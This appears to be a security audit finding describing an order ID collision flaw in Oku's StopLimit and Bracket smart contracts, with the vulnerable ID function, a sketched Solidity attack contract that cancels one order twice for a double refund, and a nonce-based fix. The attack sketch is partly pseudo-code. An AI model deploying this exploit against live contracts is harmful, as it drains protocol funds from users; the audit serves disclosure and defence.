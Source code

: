 Basic Violet Falcon

High

# Cross-Contract Order ID Collision: A Time-Based Race Condition

### Summary

Critical vulnerability in Oku's order management system where deterministic order ID generation enables atomic block exploitation across `StopLimit.sol` and `Bracket.sol`, leading to order state corruption and unauthorized token withdrawals.

### Root Cause

```solidity
function generateOrderId(address user) external returns (uint96) {
    // Insufficient entropy - only uses block.number and user
    return uint96(uint256(keccak256(abi.encodePacked(
        block.number,
        user
    ))));
}
```


### Internal pre-conditions

1. Shared state:

```solidity
mapping(uint96 => Order) public orders;
uint96[] public pendingOrderIds;
```


2. Cross-contract dependencies:

```solidity
IBracket public immutable BRACKET;
```


### External pre-conditions

- Block builder capabilities
- Front-running infrastructure
- Sufficient capital for concurrent orders

### Attack Path

```solidity
// ATTACK SEQUENCE - Block #1337
// Step 1: Deploy Attack Contract
contract OrderCollisionExploit {
    function execute() external {
        // First Order - Bracket
        bytes memory bracketParams = abi.encode(...);
        bracket.createOrder{value: 1e18}(
            bracketParams,
            recipient: address(this)
        );
        // orderId = hash(1337 + address(this))

        // Second Order - StopLimit (Same Block)
        bytes memory stopParams = abi.encode(...);
        stopLimit.createOrder{value: 1000e18}(
            stopParams,
            recipient: address(this)
        );
        //LimitOrder gets executed and added to bracket
        
        // Double Cancellation
        uint96 orderId = computeOrderId(1337, address(this));
        // attacker withdraws orderId double times with the larger value (the value of the stopLimit order)
        bracket.cancelOrder(orderId);
        bracket.cancelOrder(orderId);
    }
}
```

### Impact

1. Financial
    
    - Double refund exploitation
    - Protocol fund drainage
    - Broken accounting invariants
2. Technical
    
    - Order state corruption
    - Cross-contract data pollution
    - System integrity compromise

### Mitigation

```solidity
contract AutomationMaster {
    uint256 private nonce;
    mapping(address => bool) public registeredContracts;
    
    function generateOrderId(
        address user,
        address contractSource
    ) external returns (uint96) {
        require(registeredContracts[contractSource], "Invalid contract");
        
        return uint96(uint256(keccak256(abi.encodePacked(
            block.number,
            user,
            contractSource,
            ++nonce
        ))));
    }
}
```


Implementation changes:

1. Contract-specific entropy
2. Global nonce counter
3. Contract registration system
4. Enhanced order ID uniqueness guarantees